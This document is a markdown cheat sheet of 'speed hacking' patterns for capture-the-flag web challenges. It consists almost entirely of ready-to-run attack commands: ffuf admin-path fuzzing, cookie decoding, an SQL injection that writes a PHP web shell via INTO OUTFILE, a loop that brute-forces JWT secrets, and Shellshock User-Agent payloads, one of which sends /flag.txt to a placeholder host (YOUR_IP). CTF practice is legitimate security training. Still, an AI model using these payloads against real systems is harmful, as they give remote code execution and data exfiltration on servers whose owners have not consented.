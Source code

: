 
## 🔥 Speed Hacking: Common CTF Patterns

### Pattern 1: Hidden Admin Panel
```bash
# Quick admin finder
ffuf -u $TARGET/FUZZ -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -mc 200,301,302,403

# Common paths:
/admin, /administrator, /admin.php, /panel, /dashboard
/admin/login, /admin/index.php, /phpMyAdmin
/manager, /controlpanel, /admin_area
```

### Pattern 2: Encoded Flag in Cookie
```bash
# Check cookies in browser DevTools (F12 → Application → Cookies)
# Or with curl
curl -i $TARGET/login -d "user=test&pass=test" | grep -i "Set-Cookie"

# Decode common encodings
echo "cookie_value" | base64 -d
echo "cookie_value" | xxd -r -p
echo "cookie_value" | python3 -c "import urllib.parse; print(urllib.parse.unquote(input()))"
```

### Pattern 3: SQL Injection → RCE
```bash
# Union-based file write
sqlmap -u "$TARGET/product?id=1" --file-write=shell.php --file-dest=/var/www/html/shell.php

# Or manual
curl "$TARGET/product?id=1' UNION SELECT '<?php system(\$_GET[\"c\"]); ?>' INTO OUTFILE '/var/www/html/s.php'--"

# Access shell
curl "$TARGET/s.php?c=cat /flag.txt"
```

### Pattern 4: JWT with Weak Secret
```bash
# Fast check common secrets
for secret in secret admin password 123456 key; do
  echo "Testing: $secret"
  python3 -c "import jwt; print(jwt.encode({'user':'admin'}, '$secret', algorithm='HS256'))"
done | while read token; do
  curl -H "Authorization: Bearer $token" $TARGET/admin
done
```

### Pattern 5: Command Injection via User-Agent
```bash
# Test blind command injection
curl -A "() { :;}; /bin/bash -c 'ping -c 3 YOUR_IP'" $TARGET/

# Listen for ping
sudo tcpdump -i tun0 icmp

# Exfiltrate data
curl -A "() { :;}; /bin/bash -c 'cat /flag.txt | curl -d @- YOUR_IP:8000'" $TARGET/
```
